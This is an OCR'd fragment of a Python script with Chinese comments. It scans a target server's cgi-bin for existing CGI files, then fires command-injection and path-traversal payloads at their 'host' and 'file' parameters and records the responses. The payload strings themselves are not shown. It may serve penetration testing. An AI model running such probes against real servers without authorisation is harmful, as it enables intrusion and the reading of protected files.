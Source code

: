 ```Python
        return None, f"REQUEST_ERROR: {e}"

# -----------------------------
# 扫描 CGI 列表，返回存在的文件名列表
# -----------------------------
def scan_cgi():
    available = []
    print("[*] 扫描 CGI 文件存在性...")
    for cgi in CGI_LIST:
        url = f"{TARGET}/cgi-bin/{cgi}"
        code, text = safe_get(url)
        if code == 200:
            print(f"[+] {cgi} 存在 (200)")
            available.append(cgi)
        else:
            print(f"[-] {cgi} 不可访问 (code={code})")
    return available

# -----------------------------
# 执行测试并收集数据结构
# -----------------------------
def run_tests(cgi_files):
    """
    返回 results: list of dicts:
    {
      'cgi': str,
      'vuln': '命令注入'|'路径遍历',
      'payload': str,
      'status': int or None,
      'summary': str (first N chars),
      'full': str (full response or error)
    }
    """
    results = []
    print("[*] 运行测试...")
    for cgi in cgi_files:
        # 命令注入（host 参数示例）
        url_cmd = f"{TARGET}/cgi-bin/{cgi}?host={quote(CMD_INJECTION_PAYLOAD)}"
        code, text = safe_get(url_cmd)
        summary = text[:500] if text and isinstance(text, str) else ""
        results.append({
            'cgi': cgi,
            'vuln': '命令注入',
            'payload': CMD_INJECTION_PAYLOAD,
            'status': code,
            'summary': summary,
            'full': text if text is not None else ""
        })
        # 路径遍历（file 参数示例）
        for p in PATH_TRAVERSAL_PAYLOADS:
            url_pt = f"{TARGET}/cgi-bin/{cgi}?file={quote(p)}"
            code2, text2 = safe_get(url_pt)
            summary2 = (text2[:500] if text2 and isinstance(text2, str) else
                        (f"状态码:{code2}" if code2 is not None else text2))
            results.append({
                'cgi': cgi,
                'vuln': '路径遍历',
                'payload': p,
                'status': code2,
                'summary': summary2,
                'full': text2 if text2 is not None else ""
            })
    return results
```